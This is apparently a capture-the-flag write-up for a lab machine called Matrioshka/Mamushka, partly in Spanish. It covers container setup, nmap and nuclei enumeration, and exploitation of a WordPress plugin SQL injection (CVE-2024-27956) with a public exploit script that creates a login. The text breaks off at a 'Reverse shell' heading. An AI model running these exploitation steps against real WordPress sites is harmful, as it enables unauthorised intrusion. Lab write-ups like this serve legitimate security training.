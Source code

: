 ![[banner.png]]
### Machine Name: Matrioshka/Mamushka

`​DDth:22 Month:08 YYYY:2024`

Machine Author(s): [GalileoQ](https://app.hackthebox.com/profile/overview) - [b0ySie7e](https://app.hackthebox.com/users/417609) 

### Description:
This machine combines various vulnerabilities in a Docker container environment. The machine includes two containers, each with its own set of challenges.

The first container runs a WordPress website that uses a plugin vulnerable to SQL injection. By exploiting this vulnerability, it is possible to gain access to the database and eventually compromise the system.

The second container runs an HTTP server vulnerable to remote code execution. This vulnerability allows attackers to gain access to the container. Furthermore, this container is configured with a Docker breakout vulnerability, allowing attackers to escalate privileges and compromise the host.

The Matrioshka challenge tests players' ability to identify and chain multiple attack vectors, from exploiting web vulnerabilities to escalating privileges using advanced Docker breakout techniques.

### Difficulty:

`easy`

### Flags:

User: `<md5>`

Root: `<md5>`

### Automation / Crons
Due to a problem when exporting the machine in `.ova` format we decided to create a service which is responsible for ensuring that the containers are always running.

1) Create the service file
```python
sudo nano /etc/systemd/system/docker-compose-restart.service

This command opens the `nano` text editor with superuser privileges (`sudo`) to create a `systemd` service file called `docker-compose-restart.service`.

```

2) Contents of docker-compose-restart.service service
```python
[Unit]
Description=Restarts Docker Compose at a specified path with a delay after the full startup
After=network.target

[Service]
Type=oneshot
WorkingDirectory=/root/docker-hfs/
ExecStartPre=/bin/sleep 3
ExecStart=/usr/bin/docker-compose down
ExecStartPost=/bin/sleep 5
ExecStartPost=/usr/bin/docker-compose up -d

[Install]
WantedBy=default.target

This file defines a `systemd` service that, once activated, will do the following:

1. Wait 3 seconds.
2. Stop all containers defined in the `docker-compose.yml` file in `/root/.docker-hfs/`.
3. It will wait for 5 seconds.
4. It will restart the containers in the background.

The service is a oneshot service, meaning it will run these actions once and then terminate.


3) Reload systemd configuration
python
sudo systemctl daemon-reload

This command reloads the systemd configuration to recognize the new service file.

4) Enable the service
python
sudo systemctl enable docker-compose-restart.service

This command enables the service to run automatically at system startup.
```

### Firewall Rules
`NONE`

---------------------------------------------------
### Ping

```python
ping -c 1 10.0.2.24
PING 10.0.2.24 (10.0.2.24) 56(84) bytes of data.
64 bytes from 10.0.2.24: icmp_seq=1 ttl=64 time=0.524 ms

--- 10.0.2.24 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.524/0.524/0.524/0.000 ms
```

### TTL = 64 Linux

### nmap
sudo nmap -p- -open -sCV --min-rate 5000 -n -Pn 10.0.2.24

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 b5:a4:7c:65:5c:1f:d7:89:42:bd:76:df:2c:8e:93:4e (ECDSA)
|_  256 5d:3d:2b:43:fc:89:fa:24:a3:f4:73:5f:7b:89:6c:e3 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: mamushka
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 08:00:27:05:CB:78 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds
```

### Enumeración del puerto 80 (http)
en la primera parte de la web podemos observar que la web contiene 8 apartados ( `Account,Login,Logout,Members,Password Reset,Register,Simple Page,User` ) también observamos una barra de búsqueda y al final de la web un panel de registro de usuarios. 
todos estos apartados aunque interesantes no nos proporcionan un camino ni tampoco son la vía intencionada para esta primera incursión 
![[Pasted image 20240822205025.png]]

![[Pasted image 20240822205106.png]]

![[Pasted image 20240822205132.png]]

![[Pasted image 20240822205146.png]]

### Fuzzing con gobuster
en nuestra enumeración con gobuster encontramos tres directorios los cuales nos indican que nos estamos enfrentando a una web diseñada en WordPress
![[Pasted image 20240822210221.png]]

### nuclei
realizando un escaneo con nuclei podemos conseguir una CVE en este caso es la CVE-2024-27956 la cual esta albergada en un plugin de wordpress. 
![[Pasted image 20240822223658.png]]

### wfuff
podemos verificar esto usando una wordlist de wordpress actualizada que podemos conseguir en este repositorio [Wordlist-Wordpress](https://github.com/kongsec/Wordpress-BruteForce-List/blob/main/Fuzz)
![[Pasted image 20240822224231.png]]

### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad                                        | Tipo | Nivel | Link                                                    |
| -------------- | ------------------------------------------------------------------ | ---- | ----- | ------------------------------------------------------- |
| CVE-2024-27956 | SQL Injection Vulnerability in ValvePress Automatic (WP-Automatic) | RCE  | 9.9   | [link](https://nvd.nist.gov/vuln/detail/CVE-2024-27956) |
|                |                                                                    |      |       |                                                         |
|                |                                                                    |      |       |                                                         |

### explotación De La CVE
para la explotación de esta CVE usaremos el siguiente repositorio [github](https://github.com/diego-tella/CVE-2024-27956-RCE) en este punto solo debemos ejecutar el exploit con el siguiente comando

```python
python3 exploit.py http://mamushka.htb/
```

este exploit se aprovecha de la vulnerabilidad SQL Injection para crear un usuario y una password validas en el WordPress 
![[Pasted image 20240822225246.png]]

### wp-login
en este punto solo debemos navegar hasta el panel de login del WordPress e ingresar con las credenciales que hemos creado 
![[Pasted image 20240822225440.png]]

`Login`
finalmente estamos dentro del WordPress
![[Pasted image 20240822225549.png]]

### Reverse shell
para obtener una reverse shell en este wordpre
